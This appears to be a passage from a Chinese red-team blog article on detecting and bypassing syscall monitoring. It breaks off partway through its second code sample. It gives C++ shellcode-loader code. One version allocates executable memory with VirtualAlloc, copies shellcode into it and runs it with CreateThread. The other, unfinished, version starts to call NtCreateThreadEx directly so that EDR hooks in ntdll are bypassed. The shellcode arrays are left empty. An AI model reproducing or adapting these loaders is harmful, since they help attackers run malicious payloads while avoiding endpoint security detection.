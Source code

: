 #  syscall的检测与绕过

原创 ziansec  [ 红队蓝军 ](javascript:void\(0\);)

**红队蓝军** ![]()

微信号 Xx_Security

功能介绍 一群热爱网络安全的人，知其黑，守其白。不限于红蓝对抗，web，内网，二进制。

____

___发表于_

收录于合集

#syscall 2 个

#红队 41 个

## 普通调用

    
    
    #include <iostream>  
    #include <windows.h>  
      
    int main()  
    {  
     unsigned char shellcode[] = "";  
        void* exec = VirtualAlloc(0, sizeof shellcode, MEM_COMMIT,  
            PAGE_EXECUTE_READWRITE);  
        memcpy(exec, shellcode, sizeof shellcode);  
        CreateThread(NULL, 0, (LPTHREAD_START_ROUTINE)exec, 0, 0, NULL);  
        Sleep(1000);  
        return 0;  
    }  
    

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230104154228.png)

此时的调用是非常明显的，能看到Ntdll中NtCreateThread的调用。

## syscall调用

    
    
    #include <iostream>  
    #include <Windows.h>  
    EXTERN_C NTSTATUS NtCreateThreadEx  
    (  
     OUT PHANDLE hThread,  
     IN ACCESS_MASK DesiredAccess,  
     IN PVOID ObjectAttributes,  
     IN HANDLE ProcessHandle,  
     IN PVOID lpStartAddress,  
     IN PVOID lpParameter,  
     IN ULONG Flags,  
     IN SIZE_T StackZeroBits,  
     IN SIZE_T SizeOfStackCommit,  
     IN SIZE_T SizeOfStackReserve,  
     OUT PVOID lpBytesBuffer  
    );  
    int main()  
    {  
     HANDLE pHandle = NULL;  
     HANDLE tHandle = NULL;  
     unsigned char shellcode[] = "";  